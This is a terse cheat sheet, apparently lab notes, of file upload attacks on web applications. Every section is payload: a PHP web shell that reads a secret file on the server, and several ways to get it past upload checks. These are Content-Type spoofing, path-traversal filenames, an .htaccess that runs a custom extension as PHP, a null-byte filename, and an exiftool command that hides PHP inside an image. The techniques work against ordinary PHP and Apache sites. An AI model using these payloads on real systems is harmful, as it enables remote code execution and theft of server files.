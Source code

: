 ## Basic:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
GET /files/avatars/exploit.php HTTP/1.1
```

## Bypass:

1) Content-Type to `image/jpeg`.
   
2) Content-Disposition: form-data; name="avatar"; `filename="../exploit.php"`.
   filename="..%2fexploit.php".
   GET /files/avatars/..%2fexploit.php
   
3) filename parameter to `.htaccess`;
   Content-Type header to text/plain'
   Replace the contents of the file (your PHP payload) with the following Apache directive: `AddType application/x-httpd-php .l33t`;
   Filename parameter from `exploit.php` to `exploit.l33t`;
   GET /files/avatars/exploit.l33t.
   
4) filename="exploit.php%00.jpg";
   GET /files/avatars/exploit.php;

5) `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`
   GET /files/avatars/polyglot.php.
